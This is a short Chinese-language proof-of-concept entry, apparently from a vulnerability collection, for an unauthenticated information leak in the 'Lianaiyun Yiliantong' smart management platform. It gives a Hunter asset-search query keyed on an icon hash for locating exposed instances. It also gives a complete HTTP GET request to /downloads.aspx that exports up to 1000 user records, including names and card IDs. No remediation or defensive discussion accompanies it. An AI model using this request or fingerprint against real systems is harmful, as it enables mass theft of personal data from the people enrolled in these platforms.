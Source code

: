 # 脸爱云一脸通智慧管理平台downloads存在信息泄露漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。脸爱云一脸通智慧管理平台downloads存在信息泄露漏洞。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 脸爱云一脸通智慧管理平台

# 三、资产测绘
+ hunter`web.icon=="4f0be080512ee0b45fc90ff894b6ba60"`
+ 特征

![1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28.png](./img/oYOAbyeNxy0-K3kx/1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28-421332.png)

# 四、漏洞复现
```java
GET /downloads.aspx?Ename=UserInfo&total=1000&jsonParam={%22rybh%22:%22%22,%22ryxm%22:%22%22,%22EngName%22:%22%22,%22groupname%22:%22%22,%22companyname%22:%22%22,%22bmmc%22:%22%22,%22ryzt%22:%22%22,%22rzstartime%22:%22%22,%22rzendtime%22:%22%22,%22lzstartime%22:%22%22,%22lzendtime%22:%22%22,%22zhiwu%22:%22%22,%22cardid%22:%22%22,%22rfzt%22:%22%22,%22klb%22:%22%22,%22sxstartime%22:%22%22,%22sxendtime%22:%22%22,%22khstartime%22:%22%22,%22khendtime%22:%22%22,%22rfoperator%22:%22%22,%22rfstartime%22:%22%22,%22rfendtime%22:%22%22,%22feat%22:%22%22} HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![1714289513778-bfcc1b6d-0d32-422d-90f6-64868d76dc93.png](./img/oYOAbyeNxy0-K3kx/1714289513778-bfcc1b6d-0d32-422d-90f6-64868d76dc93-068062.png)

![1714289539725-6727a5dd-f8c7-49a6-9297-493ce0cdb52d.png](./img/oYOAbyeNxy0-K3kx/1714289539725-6727a5dd-f8c7-49a6-9297-493ce0cdb52d-931943.png)



> 更新: 2024-04-28 15:34:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lim8z4ebk4m2ztoh>